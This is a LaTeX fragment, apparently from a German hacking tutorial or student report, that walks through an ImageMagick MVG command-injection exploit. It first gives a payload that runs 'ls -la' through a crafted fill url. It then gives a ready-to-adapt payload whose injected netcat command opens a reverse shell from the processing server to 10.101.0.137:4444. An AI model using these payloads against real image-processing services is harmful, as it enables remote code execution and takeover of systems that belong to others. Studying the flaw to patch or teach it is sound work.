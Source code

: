 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploit}]
        exploit.mvg
        -=-=-=-=-=-=-=-=-
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|ls "-la)'
        pop graphic-context
    \end{lstlisting}~\parencite{imagemagickExploit}
    \vspace{0.3cm}
    \\
    Dieser Exlpoit zeigt nach dem Ausführen eine Liste aller Dateien und Verzeichnisse im aktuellen Verzeichnis als Profilbild an.
    Das ist Tim jedoch nicht genug, er möchte eine Reverse Shell.
    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc Ziel-IP Port –e /bin/bash}.
    Es gilt abschließend den in~\ref{lst:imageMagickExploit} beschriebene Exploit um die Netcat Reverse Shell ergänzen.
    Das der Exploit ausgeführt wird, ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploitFinal}]
        #Als .txt bearbeiten und in einem akzeptiertem Dateiformat speichern
        #Lokale IP und Zielport tauschen
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|nc 10.101.0.137 4444 "-e/bin/bash '
        pop graphic-context
    \end{lstlisting}
    \vspace{0.3cm}
\end{document}
